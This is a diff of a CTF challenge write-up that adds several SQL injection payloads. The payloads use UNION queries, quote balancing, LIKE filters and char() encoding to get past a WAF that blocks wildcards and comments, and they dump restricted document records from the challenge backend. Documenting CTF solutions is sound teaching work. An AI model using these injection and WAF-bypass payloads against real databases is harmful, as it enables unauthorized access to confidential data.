

Before and after one commit to Rohith-sp/rvce-ctf-phantom-pdf, a Markdown page: solution/WRITEUP.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Add comprehensive list of all possible working SQLi payloads to WRITEUP.md

````diff
--- a/solution/WRITEUP.md
+++ b/solution/WRITEUP.md
@@ -24,9 +24,21 @@ The backend implements a WAF blocking wildcards (`*`), comments (`--`, `#`), and
   ```sql
   %' UNION SELECT title, access_level, file_path, author FROM documents UNION SELECT '1','2','3','4
   ```
-* **Method 2 (Filtered Decoy Dump)**:
+* **Method 2 (Filtered Non-Public Dump via `!=`)**:
   ```sql
   %' UNION SELECT title, access_level, file_path, author FROM documents WHERE access_level!='Public' UNION SELECT '1','2','3','4
+  ```
+* **Method 3 (Empty String Balancing)**:
+  ```sql
+  %' UNION SELECT title, access_level, file_path, author FROM documents UNION SELECT '','','','
+  ```
+* **Method 4 (Targeted Document ID Dump via `LIKE`)**:
+  ```sql
+  %' UNION SELECT title, access_level, file_path, author FROM documents WHERE file_path LIKE '%5%' UNION SELECT '1','2','3','4
+  ```
+* **Method 5 (WAF Char Encoding Bypass)**:
+  ```sql
+  %' UNION SELECT title, access_level, char(47,100,111,119,110,108,111,97,100,47,53), author FROM documents UNION SELECT '1','2','3','4
   ```
 
 Submitting either payload reveals all **7 documents** (Public, Confidential, and Restricted). Notice that multiple documents contain subtle traps!
````
